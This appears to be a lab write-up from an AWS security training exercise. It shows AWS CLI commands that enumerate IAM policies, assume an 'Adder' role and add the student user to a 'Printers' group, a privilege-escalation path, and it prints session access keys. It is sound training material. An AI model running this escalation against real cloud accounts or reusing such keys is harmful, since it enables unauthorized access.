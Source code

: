 ### Dangerous Policy Combination I

A pre requisite is to configure the profile generated by PT Academy

First, list attached policies for user `student` `aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222631607-91c607e2-d4f8-44d0-b2a0-69bc1ae83bf7.png)

If a user is tried to be created, a denied message will be received ` aws iam create-user --user-name jllerena --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222631842-3b8ccab1-7e4b-4419-b1d9-d56a74e7a51b.png)

What can be done is to get information about the user’s inline policies and enumerate the attached policies.
```
aws iam list-user-policies --user-name student --profile PTAcademyJllerena
aws iam get-user-policy --user-name student --policy-name terraform-20230303041857712300000002 --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222632349-d106b9f1-db58-4a55-8206-2d3f93e537c8.png)

Check policies attached to Adder role and check the role-policy document for the policy `AddUser`.

```
aws iam list-role-policies --role-name Adder --profile PTAcademyJllerena
aws iam get-role-policy --role-name Adder --policy-name AddUser --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222633923-83a1ecab-e304-4a5c-8b57-d620720a7aba.png)

Assume Adder role with student user. `aws sts assume-role --role-arn arn:aws:iam::566111886431:role/Adder --role-session-name adder_jllerena --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222636097-2ba838b6-375c-4e0b-8001-b6978538e0c8.png)

With this assume role lets store the credentials which can be in the env variables or in my case in the `~/.aws/credentials` path 

Lets add `student` user to `Printers` group `aws iam add-user-to-group --group-name Printers --user-name student --profile PTAJllerenaAssumedRole`

![image](https://user-images.githubusercontent.com/46797181/222640066-b390c175-2242-4f7a-8b60-3a47b89681d6.png)

Something important to notice is that this credentials storing in the `credentials` file gave an error, so the workaround was to store the values in env variables 
![image](https://user-images.githubusercontent.com/46797181/222640388-2eadecc4-e05b-4d8a-a339-21fcd857a5cc.png)

```
export AWS_ACCESS_KEY_ID=ASIA4FSZIQWHZGGDJ36G
export AWS_SECRET_ACCESS_KEY=NHaUFlUqtXoaJrCs9/HurXAN0MEuNEfKsm3Lzlov
export AWS_SESSION_TOKEN=IQoJ<rest of token>
aws iam add-user-to-group --group-name Printers --user-name student
```

